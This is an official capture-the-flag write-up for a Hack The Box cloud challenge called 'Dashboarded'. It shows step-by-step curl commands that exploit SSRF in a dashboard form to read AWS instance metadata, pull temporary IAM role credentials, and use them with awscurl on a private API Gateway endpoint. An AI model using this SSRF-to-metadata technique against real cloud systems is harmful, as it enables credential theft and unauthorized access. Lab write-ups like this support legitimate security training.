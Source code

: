 ![banner](../../assets/banner.png)

<img src="../../assets/htb.png" style="zoom: 80%;" align=left /><font size="5">Dashboarded</font>

​	6<sup>th</sup> May 2025

​	Prepared By: polarbearer

​	Challenge Author(s): polarbearer

​	Difficulty: <font color=green>Very Easy</font>

​	Classification: Official







# Synopsis 

Dashboarded is a very easy cloud challenge that highlights how common web application vulnerabilities can be leveraged to gain further access to the underlying AWS infrastructure. A monitoring dashboard, accessible without prior authentication, makes requests to an internal API hosted on AWS. The application is vulnerable to Server-Side Request Forgery (SSRF), which allows players to access AWS metadata and retrieve credentials for an IAM role that is authorized to access a private endpoint on the API gateway.

# Description

After a relentless week-long effort, a lone Task Force operative successfully breached Volnaya's cloud-based ICS monitoring network, securing us permanent access to their front-end monitoring dashboard and opening a critical window into their industrial infrastructure. Your goal is to infiltrate deeper, locate sensitive data, and enable the Task Force to assume control of their core systems.

`IP: 3.15.107.79`

## Skills required 

* Knowledge of common Web Applications vulnerabilities 
* Familiarity with Cloud Technologies (AWS)

## Skills Learned

-  Leaking AWS credentials via SSRF
-  Using leaked credentials to access AWS services

# Challenge

We've given the IP address. Let's do a quick port scan to identify open ports and services. 

```bash
rustscan -a 3.15.107.79

Open 3.15.107.79:80
```

Only port 80 (HTTP) is listening. The web server is hosting a monitoring dashboard application.

![image-20250506140252919](assets/image-20250506140252919.png)

Looking at the source code, we see that the "Check Status" form has a hidden `url` field, pointing to an API Gateway endpoint.

```html
<form method="post">
    <input type="hidden" name="url" value="https://inyunqef0e.execute-api.us-east-2.amazonaws.com/api/status">
    <button type="submit" class="action-btn">Check Status</button>
</form>
```

The `/status` endpoint can be accessed without authentication.

```bash
curl https://inyunqef0e.execute-api.us-east-2.amazonaws.com/api/status

[{"name": "Power Plant Zeta-7", "status": "critical", "message": "Power Grid Disruption"}, {"name": "Water Treatment Facility Delta-9", "status": "operational", "message": "All checks OK"}, {"name": "Factory Alpha-12", "status": "warning", "message": "Minor Systems Failure"}]
```

The `/` route returns the list of available endpoints:

```bash
curl https://inyunqef0e.execute-api.us-east-2.amazonaws.com/api/

{"endpoints": ["/status", "/private"]
```

The `/private` endpoint, unlike the others, requires an authentication token.

```bash
curl https://inyunqef0e.execute-api.us-east-2.amazonaws.com/api/private

{"message":"Missing Authentication Token"}
```

The way the `url` parameter is passed to the form makes the application potentially vulnerable to SSRF. Let's try accessing the `/private` endpoint:

```bash
curl -d "url=https://inyunqef0e.execute-api.us-east-2.amazonaws.com/api/private" 3.15.107.79
```

Our request results in an `Invalid JSON data` error, with no additional information.

```html
<h2>Systems Under Empire Control</h2>
    Invalid JSON data:                                 <div>
                    <form method="post">
                        <input type="hidden" name="url" value="https://inyunqef0e.execute-api.us-east-2.amazonaws.com/api/status">
                        <button type="submit" class="action-btn">Check Status</button>
                    </form>
                </div>
```

Let's look at the instance [metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html), which is available at `http://169.254.169.254/latest/meta-data`:

```bash
curl -d "url=http://169.254.169.254/latest/meta-data" 3.15.107.79
```

```html
                <h2>Systems Under Empire Control</h2>
                                    Invalid JSON data: ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/
events/
hostname
iam/
identity-credentials/
instance-action
instance-id
instance-life-cycle
instance-type
local-hostname
local-ipv4
mac
metrics/
network/
placement/
profile
public-hostname
public-ipv4
public-keys/
reservation-id
security-groups
services/
system                                <div>
```

Metadata contain an `iam/` path, which means the instance has been granted some IAM role. Let's dig deeper:

```bash
curl -d "url=http://169.254.169.254/latest/meta-data/iam/security-credentials" 3.15.107.79
```

```html
Invalid JSON data: APICallerRole 
```

The instance was granted a role named `APICallerRole`. Let's retrieve the credentials:

```bash
curl -d "url=http://169.254.169.254/latest/meta-data/iam/security-credentials/APICallerRole" 3.15.107.79
```

```html
                                    Invalid JSON data: Success
Invalid JSON data: 2025-05-06T11:59:18Z
Invalid JSON data: AWS-HMAC
Invalid JSON data: ASIARHJJMXKM7V6XKLOX
Invalid JSON data: O6aWaeBEbSQXgoyK8nOkH4j2B5BzhsxSEzggeVCu
Invalid JSON data: IQoJb3JpZ2luX2VjEJz//////////wEaCXVzLWVhc3QtMiJHMEUCIAbHkg<SNIP>
Invalid JSON data: 2025-05-06T18:14:17Z
```

We can use the credentials to connect to the `/private` endpoint with [awscurl](https://github.com/okigan/awscurl):

```bash
python3 -m venv venv
source venv/bin/activate
pip install awscurl

awscurl --region=us-east-2 --access_key "ASIARHJJMXKM7V6XKLOX" --secret_key "O6aWaeBEbSQXgoyK8nOkH4j2B5BzhsxSEzggeVCu" --security_token "IQoJb3JpZ2luX2VjEJz<SNIP>" https://inyunqef0e.execute-api.us-east-2.amazonaws.com/api/private | jq
```

A list of controlled systems is returned, which includes the challenge flag.

```json
[
  {
    "name": "Power Plant Zeta-7",
    "location": "Northern Province, Grid Sector 4",
    "operational_status": "Active",
    "critical_load": "75 MW",
    "backup_power_availability": "80%",
    "access_control_level": "Restricted Access (Level 3)",
    "emergency_shutdown_status": "Online",
    "encryption_key": "AES256-xyz123==",
    "admin_access_key": "PLANT-Z7-ADMLv3-2025",
    "sensor_id": "ZETA-7-SENSOR-001",
    "last_security_audit": "2025-04-15",
    "backup_power_system_id": "BPS-Z7-Backup-001"
  },

<SNIP>

  {
    "flag": "HTB{REDACTED}"
  },   
```




